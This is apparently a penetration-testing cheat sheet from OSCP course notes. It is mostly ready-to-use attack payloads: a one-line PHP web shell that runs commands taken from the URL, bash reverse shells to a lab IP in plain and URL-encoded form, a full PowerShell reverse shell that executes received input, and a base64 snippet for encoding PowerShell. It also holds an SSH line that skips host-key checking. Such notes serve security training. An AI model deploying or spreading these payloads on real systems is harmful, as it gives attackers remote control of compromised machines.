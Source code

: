 - SSH connection to OSCP machines
```
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" learner@192.168.50.52
```
- Bash One-Liners
```
	for ip in $(cat list.txt); do host $ip.megacorpone.com; done
```
- SecLists Project - collection of wordlists
- PHP command execution
```
<?php echo system($_GET['cmd']); ?>
```
- One liner reverse shell
```
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1

bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```

- powershell one liner reverse shell

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.45.241',4444);$stream =$client.GetStream();[byte[]]$bytes = 0..65535|%{0}while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
![[rev.ps1]]

Base64 encoding for powershell
```
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text) 
$EncodedText = [Convert]::ToBase64String($Bytes) 
```


